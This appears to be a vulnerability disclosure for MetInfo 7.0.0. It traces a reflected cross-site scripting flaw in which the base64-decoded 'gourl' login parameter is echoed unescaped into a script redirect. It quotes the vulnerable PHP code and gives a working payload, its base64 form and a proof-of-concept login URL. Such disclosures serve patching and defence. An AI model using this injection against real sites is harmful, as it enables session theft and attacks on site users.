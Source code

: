 1：Download address：https://u.mituo.cn/api/metinfo/download/7.0.0

####Vulnerability analysis：

in /app/system/user/web/login.class.php
```

if ($_M['form']['gourl']) {
            $_M['url']['user_home'] = base64_decode($_M['form']['gourl']);
            if (strpos($_M['url']['login'], 'lang=')) {
                $_M['url']['login'] .= "&gourl=" . $_M['form']['gourl'];
            } else {
                $_M['url']['login'] .= "?gourl=" . $_M['form']['gourl'];
            }
        }
```
```
Known $_M [' url '] [' user_home] this parameter from $_M [' form '] [' gourl] base64 decoding,
And $_M['form']['gourl'], the url gourl parameter, bypasses filtering because it is base64 decoded
```

When the user logs in,
Enter the okinfo() function

This function is in：\app\system\include\function\common.func.php
```
function okinfo($url, $langinfo = '')
{
    //用于十合一小程序判断
    if (isset($_POST['device_type']) && $_POST['device_type'] == 'miniprogram') {
        header('Content-Type:application/json; charset=utf-8');
        if ($url == '-1' || $url == 'javascript:history.back();') {
            $return['status'] = 0;
            $msg = '操作失败';
        } else {
            $return['status'] = 1;
            $msg = '操作成功';
        }
        $return['msg'] = $langinfo ? $langinfo : $msg;
        $return_data = json_encode($return);
        exit($return_data);
    }

    if ($langinfo) {
        $langstr = "alert('{$langinfo}');";
    }

    if ($url == '-1') {
        $js = 'window.history.back();';
    } else {
        $js = "location.href='{$url}';";
    }
    echo "<script type='text/javascript'>{$langstr} {$js} </script>";
    die();
}
```
```
Analysis:
Okinfo ($_M [' url '] [' user_home ']);
The parameter $url is $_M['url']['user_home'], and $langinfo is empty
So to enter:
if ($url == '-1') {
        $js = 'window.history.back();';
    } else {
        $js = "location.href='{$url}';";
    }
    echo "<script type='text/javascript'>{$langstr} {$js} </script>";

Visible in the js code, visible cross-site scripting vulnerability
```

#### 
Required code 
```
';alert(1);</script><!--
```
after Base64 encryption :  
```
JzthbGVydCgxKTs8L3NjcmlwdD48IS0t 
```

### poc
 Registered account test  
 Login account test

click
```
path + /member/login.php?gourl=JzthbGVydCgxKTs8L3NjcmlwdD48IS0t&a=doindex
```
Successful attack
![avarar](picture/1.png)



 
